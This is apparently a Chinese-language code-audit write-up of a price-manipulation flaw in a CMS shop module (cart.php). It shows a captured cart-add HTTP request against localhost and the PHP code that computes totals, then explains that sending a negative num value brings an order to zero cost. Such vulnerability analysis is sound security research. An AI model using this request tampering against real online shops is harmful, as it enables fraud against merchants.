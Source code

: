 ![image-20250331094948603](image/image-20250331094948603.png)

定位到该文件core/app/shop/cart.php

首先思考下，任意修改金额大小，那么肯定是金额计算时某个参数出现问题，或者本身金额可控。

抓包支付相关的几个数据包

```
POST /index.php?m=shop&c=cart&a=add HTTP/1.1
Host: 127.0.0.1
Content-Length: 45
Cache-Control: max-age=0
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/index.php?a=show&catid=28&id=14
Accept-Encoding: gzip, deflate, br
Cookie: qebak_loginlangid=1; PHPSESSID=2s3tcto0ijbimh42ejdriomed2; YUNYECMS_userid=7; YUNYECMS_username=ss; YUNYECMS_loginrnd=fijvwCEFGJRSVXYZ; YUNYECMS_logintruetime=1743339213; YUNYECMS_logintime=1743339213; YUNYECMSADM_admusername=admin; YUNYECMSADM_admuserid=1; YUNYECMSADM_admroleid=1; YUNYECMSADM_admloginrnd=fjtvCXY78%40%25%5E%28%5D%7B%3E%3D%2F%3F%7C; YUNYECMSADM_admlogintruetime=1743344212; YUNYECMSADM_admloginlicense=yunyecmslicense; YUNYECMSADM_loginyunyecmsckpass=5e0ac4302d1e5164c4159a2dca59905d; YUNYECMSADM_loginyunyecmsfilernd=abdefhkqrvwxAEHJKNOPQSU0259; YUNYECMSADM_admlogintime=1743344346
Connection: keep-alive

num=1&gid=14&catid=28&token=fijvwCEFGJRSVXYZ
```

发现了num,gid,catid,token参数，定位金额

```
$goods=GetContentById($var["gid"],$var["catid"]);
				  $list[$key]["goods"]=$goods;
				  $list[$key]["goods"]["url"]=url('show/index/content',array("catid"=>$goods["catid"],"id"=>$goods["id"]));
				  $list[$key]["totalprice"]=round($var["num"]*$var["price"],2);
				  $list[$key]["price"]=round($var["price"],2);
```

gid是商品号,num是数量,然后还有个price单价，num*price=totalprice，也就是金额只跟这三个有关。

首先看num是如何操作的，add方法

```
  if(empty($_REQUEST['num'])){
	     $num=1;
		 }else{
	     $num=trim($_REQUEST['num']);
		 $num = intval(usafestr($_REQUEST['num']));
		 }
	     if(!empty($_REQUEST['gid'])){
		    $gid=$_REQUEST['gid'];
			if(!is_numeric($gid)){
		     messagebox(Lan('goodsid_is_notnum'));		
             }
		 }else{
		     messagebox(Lan('goods_parm_error'));		
		 }
```

为空时，默认为一。否则就从request获取过滤，跟进usafestr方法，包含了一些sql注入的过滤，以及确定num为整数

在装入购物车的时候抓包，修改num数值。当输入num为负数时,仍然是有效的数字

![image-20250331105616005](image/image-20250331105616005.png)

![image-20250331105625139](image/image-20250331105625139.png)

从而达到0元购